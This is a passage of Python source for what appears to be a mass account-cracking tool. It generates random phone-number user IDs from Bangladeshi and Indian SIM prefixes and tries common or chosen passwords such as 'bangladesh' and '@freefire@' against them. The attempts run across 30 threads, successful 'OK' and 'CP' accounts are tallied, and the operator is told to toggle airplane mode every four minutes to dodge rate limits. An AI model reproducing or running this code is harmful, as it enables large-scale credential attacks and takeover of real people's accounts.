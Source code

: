         plist.append('@1234567@')
        plist.append('@@@@####')
        plist.append('@#@#@#')
        plist.append('bangladesh')
        plist.append('Bangladesh')
        plist.append('@freefire@')
        plist.append('@last@')
    elif __CH__ in ["B","b","2"]:
        clear()
        psl = int(input(f' {red}[{white}●{red}] {green}INPUT PASS LIMITS {red}➠ {green}'));line()
        print(f" {red}[{green}●{red}] {green}EXAMPLE {red}➠ {green} first6,first8,last6,last8")
        line()
        for i in range(psl):
            plist.append(input(f' {red}[{green}●{red}] {green}PASSWORD NO-{i+1} {red}➠ {green}'));line()
    for x in range(limit):
        nmp = "". join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    clear()
    with ThreadPoolExecutor(max_workers=30) as error:
        clear()
        print(f' {red}[{green}●{red}]{green} SIM CODE  {red}:{green} {code} {red}➠{green} METHOD {red}: {green}{mtd}')
        print(f' {red}[{green}●{red}]{green} TOTAL UID {red}:{green} %s ' %len(user))
        print(f' {red}[{green}●{red}]{green} TURN {red}[{white}ON{red}/{white}OFF{red}]{green} AIRPLANE MODE EVERY {white}4{green} MIN');line()
        for love in user:
            ids = code + love
            xxc= [love,ids,love[1:],love[2:],ids[5:],ids[4:],ids[3:],ids[2:],ids[1:],ids[0:],ids[:6],ids[:7],ids[:8],ids[:9],ids[:10]]
            tl = len(user)
            psd = xxc
            psd = plist
            if mtd in ['A','a','01','1']:error.submit(randm, ids, psd, tl)
            elif mtd in ['B','b','02','2']:error.submit(randm1, ids, psd,tl)
            elif mtd in ['C','c','03','3']:error.submit(randm2, ids, psd,tl)
            elif mtd in ['D','d','04','4']:error.submit(randm3, ids, psd,tl)
            elif mtd in ['5','e','05','E']:error.submit(randm4, ids, psd,tl)
            elif mtd in ['6','f','06','F']:error.submit(randm5, ids, psd,tl)
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    print(f' {red}[{green}●{red}]{green} THE PROCESS HAS BEEN COMPLETE...')
    print(f' {red}[{green}●{red}]{green} TOTAL OK {red}:{green} %s' % str(len(oks)))
    print(f' {red}[{green}●{red}]{green} TOTAL CP {red}:{red} %s' % str(len(cps)))
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    input(f" {red}[{green}●{red}]{green} PRESS ENTER TO BACK MENU ")
    ___ImRAn___MaIN___MenU___()
#---------INDIA
def ___INDIA___():
    clear()
    print(f' {red}[{green}◆{red}] {green}SIM CODES{red} ➠ {green}+91701 +91902 +91934 +91639');line()
    code = input(f' {red}[{green}◆{red}]{green} Choice    {red}➠ {green}');clear()
    print(f' {red}[{green}◆{red}] {green}EXAMPLE {red}  ➠ {green}10000 20000 30000');line()
    limit = int(input(f' {red}[{green}◆{red}] {green}LIMITS    {red}➠ {green}'));line();clear()
    print(f" \x1b[38;5;160m[\033[1;37mA\x1b[38;5;160m]\x1b[38;5;46m METHOD 1\n \x1b[38;5;160m[\033[1;37mB\x1b[38;5;160m]\x1b[38;5;46m METHOD 2\n \x1b[38;5;160m[\033[1;37mC\x1b[38;5;160m]\x1b[38;5;46m METHOD 3\n \x1b[38;5;160m[\033[1;37mD\x1b[38;5;160m]\x1b[38;5;46m METHOD 4\n \x1b[38;5;160m[\033[1;37mE\x1b[38;5;160m]\x1b[38;5;46m METHOD 5\n \x1b[38;5;160m[\033[1;37mF\x1b[38;5;160m]\x1b[38;5;46m METHOD 6");line()
    ___error___=input(f" \x1b[38;5;160m[\033[1;37m◆\x1b[38;5;160m] \x1b[38;5;46mCHOICE {red}➠ {green}");line();clear()
    print(" \x1b[38;5;160m[\033[1;37mA\x1b[38;5;160m]\x1b[38;5;46m AUTO PASSWORD")
    print(" \x1b[38;5;160m[\033[1;37mB\x1b[38;5;160m]\x1b[38;5;46m CHOICE PASSWORD");line()
    plist = []
    __CH__ = input(f" \x1b[38;5;160m[\033[1;37m◆\x1b[38;5;160m] \x1b[38;5;46mCHOICE {red}➠ {green}")
    if __CH__ in ["A","a","1"]:       